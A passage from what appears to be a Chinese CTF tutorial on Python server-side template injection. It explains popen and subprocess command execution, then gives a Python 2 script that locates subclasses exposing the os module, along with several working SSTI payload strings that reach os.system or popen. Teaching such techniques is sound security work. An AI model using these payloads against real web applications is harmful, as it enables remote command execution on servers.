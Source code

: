 ```
popen方法通过p.read()获取终端输出，而且popen需要关闭close().当执行成功时，close()不返回任何值，失败时，close()返回系统返回值（失败返回1）. 可见它获取返回值的方式和os.system不同。

![](https://img-blog.csdnimg.cn/img_convert/192389e8fc6e2700da6f1b3ae9cd19a2.png)

可以看到我们用read()可以把结果回显。

### subprocess

subprocess 模块有比较多的功能，subprocess模块被推荐用来替换一些老的模块和函数，如：os.system、os.spawn、os.popen等

subprocess模块目的是**启动一个新的进程并与之通信**。这里只讲用来运行shell命令的两个常用方法。

**subprocess.call(“command”)**  
父进程等待子进程完成  
返回退出信息(returncode，相当于Linux exit code)

与os.system功能相似,也无执行结果的回显

**subprocess.Popen(“command”)**

说明：`class subprocess.Popen(args, bufsize=0, executable=None, stdin=None, stdout=None, stderr=None, preexec_fn=None, close_fds=False, shell=False, cwd=None, env=None, universal_newlines=False, startupinfo=None, creationflags=0)`

Popen非常强大，支持多种参数和模式，通过其构造函数可以看到支持很多参数。但Popen函数存在缺陷在于，**它是一个阻塞的方法**，如果运行cmd命令时产生内容非常多，函数就容易阻塞。另一点，**Popen方法也不会打印出cmd的执行信息**。

## 0x04 如何发掘可利用payload

​最初接触SSTI的时候总会有一个固定思维，遇到了题就去搜SSTI的payload，然后一个个去套，随缘写题法（×）。然而每个题都是有自己独特的一个考点的并且python环境不同，所能够使用的类也有差异，如果不能把握整体的原理，就不能根据具体题目来进行解题了。这里我们来初探一下发掘步骤。

比如我们想要一个执行命令的payload，如何查找？很简单我们只需要有os模块执行os.system即可

**python2**

```
#python2
num = 0
for item in ''.__class__.__mro__[-1].__subclasses__():try:if 'os' in item.__init__.__globals__:print num,itemnum+=1except:num+=1#72 <class 'site._Printer'>
#77 <class 'site.Quitter'>
```

**payload**

`''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('ls')`

`[].__class__.__base__.__subclasses__()[72].__init__.__globals__['os'].popen('ls').read()`

查阅资料发现访问os模块还有从warnings.catch_warnings模块入手的，而这两个模块分别位于元组中的59，60号元素。`__init__`方法用于将对象实例化，在这个函数下我们可以通过func_globals（或者`__globals__`）看该模块下有哪些globals函数（注意返回的是字典），而linecache可用于读取任意一个文件的某一行，而这个函数引用了os模块。

于是还可以挖掘到类似payload（注意payload都不是直接套用的，不同环境请自行测试）

`[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('ls')`

`[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')`

```